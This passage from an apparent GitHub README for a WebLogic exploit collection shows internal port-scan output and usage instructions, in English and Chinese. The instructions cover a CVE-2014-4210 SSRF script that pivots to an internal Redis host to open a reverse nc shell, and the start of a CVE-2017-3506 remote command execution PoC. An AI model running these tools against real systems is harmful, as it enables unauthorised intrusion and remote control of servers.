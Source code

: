 > 192.168.112
> [*]+------------------------+
> [*]+  Scanning ip and port  +
> [*]+------------------------+
> [+] 192.168.112.1:22
> [+] 192.168.112.2:80
> [+] 192.168.112.3:7001
> [+] 192.168.112.1:7001
> [+] 192.168.112.2:6379
> [*]+------------------------+
> [*]+     Scan completed     +
> [*]+------------------------+
> ```  

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
> VER:
> ```
> Weblogic 10.0.2
> Weblogic 10.3.6
> ```
> USE:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_redis_shell.py 
> +---------------------------------------------------------------------------------------------------+
> + USE: python <filename> <weblogic_ip> <weblogic_port> <inside_ip> <inside_port> <nc_ip> <nc_port>  +
> + EXP: python filename.py 1.1.1.1 7001 192.168.1.1 6379 2.2.2.2 5555                                +
> + VER: 10.0.2,10.3.6                                                                                +
> +---------------------------------------------------------------------------------------------------+
> ```
> DES:
> ```
> <weblogic_ip> weblogic的IP地址
> <weblogic_port> weblogic的端口，一般情况下为7001
> <inside_ip> 内网redis主机的IP地址，该地址通过 6.1 的scan脚本得出
> <inside_port> 内网redis的端口，默认6379
> <nc_ip> 反弹nc shell的IP
> <nc_port> 反弹nc shell的端口
> ```
> EXP:
> ![Image](https://github.com/zhzyker/exphub/blob/master/weblogic/image/cve-2014-4210_ssrf_redis_shell.png)
  
## CVE-2017-3506_poc.py Weblogic wls-wsat远程命令执行漏洞检测脚本
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py
> +--------------------------------------------------------+
> + USE: python cve-2017-3506_poc.py <url:port>            +
> + VER: 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1, 12.2.1.2  +